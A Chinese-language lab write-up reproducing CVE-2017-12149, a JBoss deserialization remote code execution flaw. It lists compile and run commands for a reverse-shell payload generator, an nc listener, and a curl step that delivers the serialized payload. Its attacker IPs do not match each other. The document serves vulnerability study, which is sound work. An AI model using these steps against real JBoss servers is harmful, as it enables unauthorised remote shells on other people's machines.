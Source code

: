 # CVE-2017-12149 JBosS AS 6.X 反序列化漏洞

### 一、漏洞简介

JBOSSApplication Server反序列化命令执行漏洞(CVE-2017-12149)，远程攻击者利用漏洞可在未经任何身份验证的服务器主机上执行任意代码。漏洞危害程度为高危(High)。

### 二、漏洞影响

JBoss 5.x - 6.x

### 三、复现过程

win7一台,ip为 172.26.1.125（靶机，安装了java环境)

kali一台,ip为 192.168.1.192（攻击机）

![](images/15890731008817.png)


进入攻击机kali,下载反序列化工具:https://github.com/ianxtianxt/CVE-2015-7501/

解压完，进入到这个工具目录 执行命令:`javac -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap.java`

继续执行命令:


```
java -cp .:commons-collections-3.2.1.jar ReverseShellCommonsCollectionsHashMap 192.168.73.131:4444（IP是攻击机ip,4444是要监听的端口) 
```

新界面开启nc准备接收反弹过来的shell。命令:`nc -lvnp 4444`

这个时候在这个目录下生成一个ReverseShellCommonsCollectionsHashMap.ser文件，然后我们curl就能反弹shell了

![](images/15890731356862.png)


![](images/15890731392788.png)
